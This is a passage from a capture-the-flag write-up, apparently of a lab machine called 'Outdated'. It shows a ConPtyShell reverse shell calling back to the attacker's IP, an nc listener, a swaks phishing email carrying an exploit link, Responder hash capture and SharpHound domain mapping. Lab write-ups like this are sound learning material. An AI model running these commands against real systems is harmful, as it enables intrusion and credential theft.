 ![image](https://user-images.githubusercontent.com/87700008/208747329-5db475c3-18f3-476a-8f8d-2ee73f317a7e.png)

This generated an HTML page contains another url with my payload, look like this :
![image](https://user-images.githubusercontent.com/87700008/208747624-f94eda45-de6e-4132-bf61-3a4cecee937a.png)

To get a stable reverse shell I used this ps1 script : https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1
Copied the script & pasted into a new file "shell.ps1" & as per the repository to establish the shell I added this line at the end of script:

        Invoke-ConPtyShell myIp port
        
![image](https://user-images.githubusercontent.com/87700008/208748561-2d8fb37b-29e0-4e40-b99c-ce64926116cf.png)

And after that in the other terminal window I ran this to catch the stablize shell :

        stty raw -echo; (stty size; cat) | nc -lvnp port
        
Then using swaks I again send the e-mail to the server pointing to the "/exploit.html" this time & got the reverse shell as user "btables". (pwn3d!🙂)

        swaks --to itsupport@outdated.htb --from "k4rim@0k4rim.com" --server mail.outdated.htb --header "Subject: Internal web app" --body "http://myip/exploit.html"
        
![image](https://user-images.githubusercontent.com/87700008/208749146-8a21362a-2e59-4d00-8fc8-dcd07f03e9ae.png)
![image](https://user-images.githubusercontent.com/87700008/208749360-0faa1627-c25d-487f-81da-38b4a195ef1b.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## **User flag:**

When checked into the desktop of the current user, didn't found the user flag in it. Also, checked the other folders as well but didn't got the flag anywhere as well. 😕

![image](https://user-images.githubusercontent.com/87700008/208750566-a74e0c6b-a474-403d-81e0-71327916ce1c.png)

I started checking for the system info & found that we are in a HyperVisor environment & there is another subnet of IP is present in the machine starting from 172.X

![image](https://user-images.githubusercontent.com/87700008/208755285-fe42e7b5-4a07-47e3-9da3-a458d1973343.png)

So, Here I just ran responder in my kali box & started listening with the responder & in the user terminal I ran command to get file from my hosted share path:

        sudo responder -I tun0 -dwv
        
I grabbed the user hash which I may use further :

![image](https://user-images.githubusercontent.com/87700008/208752711-c94546df-9fdd-41c2-b182-fc319c93b481.png)

Next I executed sharphound which is transferred from my local kali machine, to get the AD network map.

        sharphound.exe -c all
